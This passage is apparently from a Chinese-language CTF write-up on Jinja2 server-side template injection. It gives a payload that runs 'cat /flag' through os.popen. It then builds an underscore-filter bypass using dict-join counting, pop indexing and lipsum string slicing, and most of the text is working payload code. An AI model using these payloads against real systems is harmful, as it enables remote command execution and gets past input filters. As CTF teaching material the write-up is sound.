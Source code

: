 ![alt text](image-5.png)
然后我们首先确定一下我们需要的payload
```bash
(lipsum|attr("__globals__").get("os").popen("cat /flag").read()
```
这个时候我们需要获取_通过lipsum|string|list

这个时候可以通过 pop方法
 获取_
先需要获取pop

pop方法可以根据索引值来删除列中的某个元素并将该元素返回值返回。
```
{%set pop=dict(pop=a)|join%}
```
获得_
```
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)%}{%print xiahuaxian%}
 
然后我们数 可以发现 _ 在24 所以我们索引即可
 
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}{%print xiahuaxian%}
```